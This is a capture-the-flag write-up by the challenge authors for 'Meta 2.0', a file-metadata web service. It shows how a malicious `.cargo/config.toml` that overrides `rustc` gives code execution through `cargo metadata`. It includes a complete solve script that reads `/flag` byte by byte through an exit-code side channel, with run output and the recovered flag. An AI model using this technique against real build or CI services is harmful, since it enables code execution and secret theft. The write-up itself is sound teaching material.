


# Meta 2.0 &mdash; solution

In this challenge we are given an URL to a website that seemingly outputs the
metadata of a file we upload. We are also given the source code for inspection.



Inspecting the `handout.zip` reveals that the flag we seek is saved at `/flag`,
we somehow need to get the contents of that file.

Let's see what is going on in upload handler of `app.py`.

```python
@app.route("/upload", methods=["POST"])
def upload():
    if "file" not in request.files:
        abort(400, "multipart/form-data with field 'file' required")
    result, code = save_and_probe(request.files["file"])
    return jsonify(result), code
```

Looks like the bulk of handler's logic is in `save_and_probe`, let's inspect
that next:

```python
def save_and_probe(upload):
    workdir = TMP_PARENT / str(uuid.uuid4())
    workdir.mkdir(parents=True, exist_ok=False)

    try:
        fname = secure_filename(upload.filename) or "upload.bin"
        raw_path = workdir / fname
        raw_path.write_bytes(upload.read())

        mime = magic.from_file(str(raw_path), mime=True)

        if mime in {
            "application/x-tar",
            "application/gzip",
            "application/x-bzip2",
            "application/zip",
        }:
            extract_dir = workdir / "unpack"
            extract_dir.mkdir()
            try:
                if mime == "application/zip":
                    with zipfile.ZipFile(raw_path) as zf:
                        zf.extractall(extract_dir)
                else:
                    with tarfile.open(raw_path) as tf:
                        tf.extractall(extract_dir)
            except Exception as e:
                return {"error": f"archive extraction failed: {e}"}, 400

            if is_node_project(extract_dir):
                return handle_node_project(extract_dir)

            if is_rust_crate(extract_dir):
                return handle_rust_crate(extract_dir)

            listing = sorted(
                str(p.relative_to(extract_dir)) for p in extract_dir.rglob("*")
            )
            return {"listing": listing}, 200

        if mime.startswith("image/"):
            return handle_image(raw_path)

        if mime == "application/pdf":
            return handle_pdf(raw_path)

        if mime.startswith("audio/") or mime.startswith("video/"):
            return handle_media(raw_path)

        return {"error": f"unsupported MIME: {mime}"}, 415

    finally:
        shutil.rmtree(workdir, ignore_errors=True)
```

Looks like the service supports a handful of file types according to their
[MIME type](https://en.wikipedia.org/wiki/Media_type). More precisely, it handles:
  * archives (`zip`, `gzip`, `x-tar`, and `x-bzip2`)
  * archives containing [Node](https://en.wikipedia.org/wiki/Node.js) projects
  * archives containing [Rust](https://rust-lang.org/) projects
  * images
  * PDF files
  * media files (audio and video)

For each kind of file there is a specialized handler covering that case. Our job is likely to figure out which one is vulnerable, and somehow exploit it to read the contents of `/flag`.

## Intended Approach

As you may have already guessed while playing our CTF, we use the Rust
programming language in our day jobs, so we tend to have a slightly higher
incidence of Rust-related challenges.

In that sense, it might not be surprising that the intended solution goes
through the *Rust branch* of the code.

Let's inspect the corresponding handler:

```python
def handle_rust_crate(extract_dir: pathlib.Path):
    stdout, _stderr, code = run(
        ["cargo", "metadata", "--locked", "--offline", "--format-version", "1"],
        cwd=extract_dir,
    )

    if code != 0:
        return {"error": f"Internal Server Error (exit code: {code})"}, 500

    try:
        meta = json.loads(stdout)
    except json.JSONDecodeError:
        return {"error": "Failed to parse JSON"}, 500

    return {"metadata": meta}, 200
```

At a high-level, the service invokes the `cargo metadata` command on the
extracted crate and returns the result.

It turns out that `cargo metadata` calls `rustc` (the Rust compiler) under the
hood. In fact, most `cargo` commands seem to do that. It makes perfect sense
for some of them (e.g. `cargo build`), but non-obvious ones seem to do it as
well (e.g. `cargo clean`, `cargo update`, `cargo metadata`, etc.).

Cargo is also
[highly-configurable](https://doc.rust-lang.org/cargo/reference/config.html),
and reads its configuration from a lot of places, some of which can be defined
at a crate level, e.g. through `.cargo/config.toml`.

Among things you can configure, there is a path to the Rust compiler:

```toml
[build]
rustc = "/path/to/rustc" # You can see where we're going with this :)
```

This allows us to upload a crate with malicious Cargo configuration, thereby
making Cargo believe our evil script is the Rust compiler. In other words, we
have [arbitrary code
execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

A slight inconvenience is that the `cargo` invocation will crash if our
malicious script doesn't behave as expected. However, we can still
[exfiltrate](https://en.wikipedia.org/wiki/Data_exfiltration) the flag through
some kind of side-channel. In our model solution, we're blindly comparing it
byte by byte, and if the byte of the flag matches the target, we'll invoke a
real `rustc` binary, otherwise the program will crash. By observing whether we
get an internal server error on the application level, we can deduce the flag.

Here is a solve script with all details baked in:

```python
#!/usr/bin/env python3

import json
import shutil
import string
import tarfile
import tempfile
from pathlib import Path
import sys

import requests

from tqdm import tqdm

BASE_URL = sys.argv[1].rstrip("/") if len(sys.argv) == 2 else None
if not BASE_URL:
    print("Usage: solve.py <base_url>")
    sys.exit(1)

ALPHA = string.ascii_letters + string.digits + "_{}$"
DEBUG_DIR = Path("debug")
DEBUG_DIR.mkdir(exist_ok=True)

REAL_RUSTC = "/usr/bin/rustc"


def build_crate(index: int, ch: str) -> Path:
    tmp = Path(tempfile.mkdtemp())
    try:
        (tmp / "src").mkdir()
        (tmp / "src" / "main.rs").write_text("fn main() {}")
        (tmp / "Cargo.toml").write_text("[package]\nname=\"evilcrate\"\nversion=\"0.1.0\"\nedition=\"2021\"\n")
        (tmp / "Cargo.lock").write_text(
            '[[package]]\nname="evilcrate"\nversion="0.1.0"\n'
        )
        (tmp / ".cargo").mkdir()
        (tmp / ".cargo" / "config.toml").write_text('[build]\nrustc=".cargo/fake_rustc"\n')

        fake = tmp / ".cargo" / "fake_rustc"
        ascii_val = ord(ch)
        fake.write_text(
            f"""#!/usr/bin/env bash
byte=$(dd if=/flag bs=1 skip={index} count=1 2>/dev/null | od -An -tu1 | tr -d ' ')
[[ "$byte" -eq {ascii_val} ]] && exit 101
exec {REAL_RUSTC} "$@"
"""
        )
        fake.chmod(0o755)

        tar_path = DEBUG_DIR / f"idx{index}_{ch}.tar.gz"
        with tarfile.open(tar_path, "w:gz") as tar:
            for p in tmp.rglob("*"):
                tar.add(p, arcname=p.relative_to(tmp))
        return tar_path
    finally:
        shutil.rmtree(tmp, ignore_errors=True)


def upload_and_hit(tar_path: Path) -> bool:
    with tar_path.open("rb") as f:
        r = requests.post(BASE_URL + "/upload", files={"file": f}, timeout=30)
    try:
        body = r.json()
    except json.JSONDecodeError:
        body = {}

    hit = (
        r.status_code == 500
        and isinstance(body, dict)
        and "(exit code: 101)" in body.get("error", "")
    )
    return hit


def main():
    flag = ""
    for idx in range(64):
        for ch in tqdm(ALPHA):
            tar_path = build_crate(idx, ch)
            if upload_and_hit(tar_path):
                flag += ch
                print(f"[+] confirmed byte {idx}: {ch!r}  →  {flag}")
                break
        else:
            print("[-] alphabet exhausted")
            return
        if ch == "}":
            print(f"[!] flag recovered: {flag}")
            return


if __name__ == "__main__":
    main()
```

Running it will slowly-but-surely leak the flag.

```
$ python3 solve.py https://fortid-meta.chals.io/
 47%|███████████████████████████████████████████████████████████████████████████████████████████████▎                                                                                                           | 31/66 [00:29<00:30,  1.13it/s][+] confirmed byte 0: 'F'  →  F
 47%|███████████████████████████████████████████████████████████████████████████████████████████████▎                                                                                                           | 31/66 [00:30<00:34,  1.02it/s]
 21%|███████████████████████████████████████████                                                                                                                                                                | 14/66 [00:12<00:47,  1.09it/s][+] confirmed byte 1: 'o'  →  Fo
 21%|███████████████████████████████████████████                                                                                                                                                                | 14/66 [00:13<00:50,  1.02it/s]
 26%|████████████████████████████████████████████████████▎                                                                                                                                                      | 17/66 [00:15<00:46,  1.06it/s][+] confirmed byte 2: 'r'  →  For
 26%|████████████████████████████████████████████████████▎                                                                                                                                                      | 17/66 [00:16<00:47,  1.04it/s]
 29%|██████████████████████████████████████████████████████████▍                                                                                                                                                | 19/66 [00:18<00:47,  1.02s/it][+] confirmed byte 3: 't'  →  Fort
 29%|██████████████████████████████████████████████████████████▍                                                                                                                                                | 19/66 [00:19<00:47,  1.02s/it]
 52%|████████████████████████████████████████████████████████████████████████████████████████████████████████▌                                                                                                  | 34/66 [00:31<00:31,  1.03it/s][+] confirmed byte 4: 'I'  →  FortI
 52%|████████████████████████████████████████████████████████████████████████████████████████████████████████▌                                                                                                  | 34/66 [00:32<00:30,  1.06it/s]
 44%|█████████████████████████████████████████████████████████████████████████████████████████▏                                                                                                                 | 29/66 [00:27<00:37,  1.01s/it][+] confirmed byte 5: 'D'  →  FortID
...
```

Eventually, we get the full flag: `FortID{I_H0p3_M4rk_Zuck3rber6_BuYz_0ur_M374_F0r_4_Bill10n_$$$}`.

## Unintended Approach

This challenge had a lot of solves, and we expected it to be on the harder
side. When that happens, it's usually either broken or there is a simpler
unintended solution that the authors haven't thought about.

From the feedback we got, contestants solved it exploiting
[symlinks](https://en.wikipedia.org/wiki/Symbolic_link) during tar extraction.

Here is a short explanation of one such approach by `@leo0.02`:


